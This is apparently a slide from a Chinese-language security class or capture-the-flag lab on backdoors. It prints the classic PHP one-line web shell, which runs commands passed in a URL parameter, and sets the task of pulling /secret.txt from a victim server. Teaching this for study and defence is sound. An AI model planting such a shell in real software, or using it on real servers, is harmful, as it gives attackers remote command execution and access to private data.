

# 後門 (Backdoor)
受害者伺服器(Victim Server)
後門已經先植入好了

傳說中的一句話後門
<?php eval($_GET[‘cmd’]); ?>

請抓出位於 /secret.txt 的機密資料
5487580.txt